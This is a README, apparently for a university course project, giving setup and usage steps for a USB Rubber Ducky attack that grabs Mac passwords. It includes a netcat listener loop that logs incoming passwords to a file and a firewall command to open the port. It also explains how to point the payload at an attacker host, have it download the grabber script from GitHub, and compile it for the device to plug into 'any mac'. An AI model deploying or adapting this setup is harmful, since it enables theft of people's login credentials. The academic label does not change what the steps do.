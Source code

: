 # Automatic Mac Password Gabber

## Setup First

### Create following script and execute it on your host

* Listening on port 3337

```shell
#!/bin/bash
while [ true ]
do
netcat -vlp 3337 &>> passwd.txt
done
```

* Open firewall for port 3337

```shell
sudo ufw allow 3337/tcp
```

## How To Use

### Clone the repository to your machine

```shell
git clone https://github.com/ohbriansung/usb_rubber_ducky.git
```

### Change TARGET to your host in the script: [gabber.sh](./gabber.sh)

```shell
vi ./usb_rubber_ducky/auto_mac_pw_grab/gabber.sh
```

### Upload updated script to your own github repository

### Change gabber script download address in the ducky script on line 16: [ducky_grabber.txt](./ducky_grabber.txt)

```shell
vi ./usb_rubber_ducky/auto_mac_pw_grab/ducky_grabber.txt
```

### Plug in your microSD card and compile the ducky script into binary

```shell
java -jar ~/Downloads/duckencoder.jar  -i ./usb_rubber_ducky/auto_mac_pw_grab/ducky_grabber.txt -o /Volumes/NO\ NAME/inject.bin
```

### Insert the microSD card into your USB Rubber Ducky and plug your device into any mac!

## Acknowledgement

This is a course project developed at University of San Francisco. Only for academic or personal use, not for any commercial purpose.

## Author

* **Brian Sung** - *Graduate student in department of Computer Science at University of San Francisco* - [LinkedIn](https://www.linkedin.com/in/ohbriansung/)

## Reference

\[1\] https://github.com/hak5darren/USB-Rubber-Ducky
\[2\] https://github.com/danielmiessler
